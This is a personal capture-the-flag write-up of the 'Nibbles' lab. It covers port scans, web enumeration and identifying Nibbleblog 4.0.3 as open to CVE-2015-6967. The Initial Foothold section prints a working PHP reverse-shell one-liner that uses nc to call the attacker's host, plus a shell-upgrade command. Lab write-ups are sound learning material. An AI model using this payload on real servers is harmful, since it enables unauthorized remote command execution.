# Nibbles Write-Up

## Table of Contents

* [Overview](#overview)
* [Enumeration](#enumeration)
* [Footprinting](#footprinting)
* [Initial Foothold](#initialfoothold)

### Overview

This is a write-up on Nibbles, there are 2 identifiable methods of exploitation. 1 with metasploit and 1 without. This serves as an experience and knowledge bank for me!  
The vulnerability to be exploited is __CVE-2015-6967: Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)__ 
It allows an authenticated attacker to exploit an arbitrary file upload flaw, enabling the execution of malicious PHP code on the server.  
This vulnerability is particularly dangerous as it can lead to remote code execution which will be demonstrated below.  

### Enumeration

The first step is to get an idea of the available open ports and the services running.  
We run a basic `nmap` scan to see if we get any hits.  



We see that the host has ports 22 & 80 open, which happen to be running the services SSH & HTTP respectively.  
They also are running `OpenSSH` and `Apache`, on a `Ubuntu Linux` OS.  

Let's run a full tcp scan with `nmap` to scan all 65,535 ports, to identify any other ports/services.  

This will take a while, so after moving it to the background, we can do some banner grabbing to move on with our enumeration.  




Using `nc` to perform banner grabbing, we can confirm the `nmap` results that the target is running an `Apache` web server and an `OpenSSH` server.  
Checking our `nmap` scan, we can see that the full port scan did not find any additional ports.  



Let's try to run an `nmap` script scan to uncover anything else.  
This runs relatively quickly because we specify the only 2 open ports on the target.  



Let's also try to enumerate common web application directories using the `http-enum` script.  



We can see that both of these scans did not help us identify anything useful.  

### Footprinting

I tried to `curl` the target ip to see what is returned from the page.  



The comments in the html mentions a directory named nibbleblog.  
Using `whatweb`, we identify the web application in use.  



Now, we can see that it's using `HTML5`, `jQuery` and `PHP`. The blogging engine seems to be `Nibbleblog`.  



We don't find anything interesting in the /nibbleblog directory in Firefox.  
Let's try to use `Gobuster` to check for other accessible pages or directories.  



We see that the admin.php page is present, there is also a `README` page available.  
By curling the `README` page, we identify:  



the version of `Nibbleblog: v4.0.3`  

After revisiting the `Gobuster` output, I noticed that there are Status 301 codes in `/content` & `/plugins`  
We visit the `/content` page to see if there's anything useful.  

### Initial-Foothold

We will use the following `Bash` reverse shell and upload it.  
`<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.83 9443 >/tmp/f");?>`

Now, we `curl` the image page again to execute it.  
We have a reverse shell!  
We use `python3 -c 'import pty; pty.spawn("/bin/bash")'` to get us a more intuitive shell  

